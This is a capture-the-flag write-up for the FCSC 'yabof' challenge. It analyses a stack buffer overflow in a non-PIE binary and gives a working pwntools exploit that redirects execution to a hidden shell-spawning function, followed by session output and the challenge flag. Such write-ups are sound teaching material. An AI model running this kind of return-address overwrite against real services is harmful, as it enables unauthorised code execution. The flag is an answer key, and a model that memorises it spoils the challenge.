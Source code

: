 # yabof


## Challenge Statement

Yet Another Buffer Overflow!

You are tasked with exploiting a buffer overflow vulnerability in a service running on `nc chall.fcsc.fr 2109`.

Connect to the service and exploit the buffer overflow.

---

## Solution

Solution will be injected here later.


## Overview

This challenge is a simple x86_64 buffer overflow in a non-PIE binary. The goal is to hijack control flow and execute the hidden `yabof()` function, which spawns a shell.

## Binary Analysis

- **Entrypoint:** `main()` calls `vuln()`.
- **`vuln()`:**
  1. Prompts: `puts("Do you want to get a drink (y/N)?");`
  2. Reads user input via `scanf("%s", buf);`, where `buf` is a local 8-byte array (`char buf[8]`).
  3. If `buf[0] == 'y'`, prints "Here, cheers!" and returns.

- **Hidden function:**
  ```c
  void yabof(void) {
      execve("/bin/sh", NULL, NULL);
  }
  ```
  It is never called by normal control flow.

- **Protection Flags:**
  - NX enabled → stack is non-executable
  - No PIE → code addresses are static
  - No stack canaries → buffer overflow possible
  - No RELRO → GOT/PLT writable (not needed here)

## Exploit Strategy

1. **Overflow the first `scanf`:**
   - The vulnerable `scanf` reads into an 8-byte buffer (`buf` at `[rbp-0x8]`).
   - On x86_64, the saved frame pointer (RBP) and return address (RIP) follow on the stack.
   - **Offset to RIP:** `8 (buf) + 8 (saved RBP) = 16` bytes.

2. **Set up the condition:**
   - The code checks `buf[0] == 'y'` to print the "cheers" message, but does *not* perform a second read afterward.  We exploit the very same `scanf` call.
   - So our payload must start with `'y'` to pass the check, then overflow.

3. **Overwrite return address:**
   - Overwrite saved RIP with the address of `yabof()`.
   - From `nm`: `yabof` is at `0x401146`.

4. **Spawn shell and read flag:**
   - Once `vuln()` returns, execution jumps to `yabof()`, giving `/bin/sh`.
   - Finally: `cat flag.txt`.

## Proof-of-Concept Exploit (pwntools)

```python
from pwn import *

HOST, PORT = "chall.fcsc.fr", 2109
RET2YABOF = 0x401146

def main():
    p = remote(HOST, PORT)
    # Wait for prompt
    p.recvuntil(b"?")

    # Build payload:
    # 1 byte: 'y'
    # 15 bytes: filler to reach saved RIP
    # 8 bytes: address of yabof()
    payload  = b"y"
    payload += b"A" * 15
    payload += p64(RET2YABOF)

    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

## Usage

```bash
$ python exploit.py
$ cat flag.txt
```

---

*This writeup was created to demonstrate the exploitation of a simple buffer overflow on x86_64.*

```bash
python exploit.py
[+] Opening connection to chall.fcsc.fr on port 2109: Done
[*] Switching to interactive mode

Here, cheers!
$ ls
flag.txt
yabof
$ cat flag.txt
FCSC{e5352ecae8f1ad7f0e7b4225c1fb975e9cfebfac482c2b4a9dd25661a0e49296}
$  

---

## Flag

FCSC{e5352ecae8f1ad7f0e7b4225c1fb975e9cfebfac482c2b4a9dd25661a0e49296}

---
